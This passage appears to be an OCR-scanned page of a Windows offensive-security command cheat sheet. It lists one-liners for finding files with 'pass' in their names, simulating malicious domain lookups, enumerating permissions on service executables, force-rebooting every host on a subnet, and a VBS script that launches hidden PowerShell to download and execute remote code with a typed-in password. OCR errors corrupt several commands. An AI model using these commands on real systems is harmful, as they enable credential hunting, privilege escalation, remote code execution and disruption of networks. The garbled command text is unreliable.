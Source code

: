 ```text
forfi1es /P c:\temp /s /m pass -c "cmd /c echo @isdir @fdate @ftime
@relpath @path @fsize"
```

### Simulate malicious domain callouts \(useful for av/ids testing\)

```text
# Run packet capture on attack domain to receive callout
# domains.txt should contain known malicious domains
for /L %i in (0,1,100) do (for /F %n in (domains.txt) do nslookup %n
attack domain NUL 2 &1 & ping -n 5 127.0.0.1 NUL 2 &1
```

### IE web looper \(traffic generator\)

```text
for /L %C in (1,1,5000) do @for %U in (www.yahoo.com www.pastebin.com
www.paypal.com www.craigslist.org www.google.com) do start /b iexplore %U &
ping -n 6 localhost & taskkill /F /IM iexplore.exe
```

### Get permission on service executables 

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full | find /i
"pathname" I find /i /v "system32"') do @echo %a
c:\windows\temp\3afd4ga.tmp
for /f eol = " delims = " %a in (c:\windows\temp\3afd4ga.tmp) do cmd.exe
/c icacls ''%a''
```

### Rolling reboot \(replace /R with /S for a shutdown\):

```text
for /L %i in (2,1,254) do shutdown /r /m \\1.1.1.%i /f /t 0 /c "Reboot
message"
```

### Shell escalation using VBS \(need elevated credentials\)

```text
# Create .vbs script with the following
Set shell wscript.createobject("wscript.shell")
Shell.run "runas /user: user " & """" &
C:\Windows\System32\WindowsPowershell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Nonlnteractive -ep bjpass -nop -c \" & """" & "IEX ((New-
Object Net.WEbClieil':).downloadstring(' url '))\" & """" & """"
wscript.sleep (100)
shell.Sendkeys " password " & "{ENTER}"
```

## Task scheduler
